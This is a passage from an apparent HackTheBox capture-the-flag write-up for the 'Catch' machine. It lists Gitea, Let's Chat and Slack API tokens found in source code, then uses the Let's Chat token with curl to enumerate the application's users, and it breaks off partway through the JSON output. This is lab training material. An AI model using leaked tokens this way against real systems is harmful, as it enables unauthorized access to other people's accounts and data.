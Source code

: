 ![[Pasted image 20220616122710.png]]


```text
"gitea_token" : "b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0"
"lets_chat_token" : "NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
"slack_token" : "xoxp-23984754863-2348975623103"
```

We can use these token somewhere.


## Enumrating Let's-Chat 
Since **Let's Chat** mentioned in their **[Wiki  Lets Chat | API](https://github.com/sdelements/lets-chat/wiki/API)** that we can interact with application using API with an Authenticating token.


##### Users

```shell
──(kali㉿kali)-[~/Desktop/Catch]
└─$ curl http://catch.htb:5000/users -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   931  100   931    0     0   1055      0 --:--:-- --:--:-- --:--:--  1055
[
  {
    "id": "61b86aead984e2451036eb16",
    "firstName": "Administrator",
    "lastName": "NA",
    "username": "admin",
    "displayName": "Admin",
    "avatar": "e2b5310ec47bba317c5f1b5889e96f04",
    "openRooms": [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18",
      "61b8708efe190b466d476bfb"
    ]
  },
  {
    "id": "61b86dbdfe190b466d476bf0",
    "firstName": "John",
    "lastName": "Smith",
    "username": "john",
    "displayName": "John",
    "avatar": "f5504305b704452bba9c94e228f271c4",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86e40fe190b466d476bf2",
    "firstName": "Will",
    "lastName": "Robinson",
    "username": "will",
    "displayName": "Will",
    "avatar": "7c6143461e935a67981cc292e53c58fc",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
```